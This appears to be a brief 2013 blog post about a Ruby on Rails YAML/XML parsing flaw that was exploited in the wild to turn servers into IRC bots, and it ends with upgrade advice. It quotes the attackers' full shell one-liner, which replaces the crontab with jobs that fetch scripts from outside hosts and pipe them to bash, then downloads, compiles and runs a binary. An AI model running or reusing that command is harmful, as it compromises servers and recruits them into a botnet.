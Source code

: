 ```yaml
---
layout: post
title:  "Ars Technica Article"
date:   2013-06-06 13:01:00
categories: article
---
```


#### Critical Ruby on Rails bug exploited in wild, hacked servers join botnet

On May 28, 2013 an article on [Ars Technica][arstech] reported a malicious Rails bug that inflatrated any server running Rails 2.3.15 and lower. The attackers exploited a flaw in YAML and the rails Symbol type conversion XML parser. Attackers used hyjacked machines to create IRCbots to flood the #rails IRC channel.

Attackers used a unix command similar to this:
{% highlight bash %}
  crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
{% endhighlight %}

Rails admins are advised to update to the latest version of Rails (4) or use [these][google] work arounds to avoid this vulnerability. 

[arstech]: http://arstechnica.com/security/2013/05/critical-ruby-on-rails-bug-exploited-in-wild-hacked-servers-join-botnet/
[google]: https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion
